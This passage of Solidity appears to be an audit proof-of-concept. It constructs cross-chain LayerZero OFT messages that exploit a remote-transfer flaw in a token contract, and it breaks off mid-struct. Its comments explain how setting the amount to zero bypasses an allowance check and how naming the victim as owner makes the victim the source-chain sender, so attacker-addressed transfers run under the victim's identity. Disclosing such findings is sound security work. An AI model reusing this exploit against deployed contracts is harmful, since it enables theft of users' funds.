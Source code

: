 ```solidity

        // SECOND MESSAGE     B ---> A                 

        SendParam memory sendParamBToA = SendParam({
            dstEid: aEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
            amountLD: 0, // IMPORTANT: This must be set to 0 to bypass the allowance check performed inside `_remoteTransferReceiver()`
            minAmountLD: 0,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeBToA = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamBToA = LZSendParam({
            sendParam: sendParamBToA,
            fee: feeBToA,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        // Create remote transfer message
        RemoteTransferMsg memory remoteTransferMsg = RemoteTransferMsg({
            owner: makeAddr("victim"), // IMPORTANT: This will make the attack be triggered as the victim will become the srcChainSender in the destination chain
            composeMsg: toeComposeMsgVictim,
            lzSendParam: lzSendParamBToA
        });

        // Create Toe Compose message
        bytes memory toeComposeMsg = abi.encodePacked(
            PT_REMOTE_TRANSFER, // msgType
            uint16(abi.encode(remoteTransferMsg).length), // message length
            index, // index
            abi.encode(remoteTransferMsg),
            bytes("") // next message
        );
         
        // INITIAL MESSAGE       A ---> B                      

        // Create `_lzSendParam` parameter for `sendPacket()`
        SendParam memory sendParamAToB = SendParam({
            dstEid: bEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
            amountLD: 0,
            minAmountLD: 0,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeAToB = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamAToB = LZSendParam({
            sendParam: sendParamAToB,
            fee: feeAToB,
            extraOptions: bytes(""),
```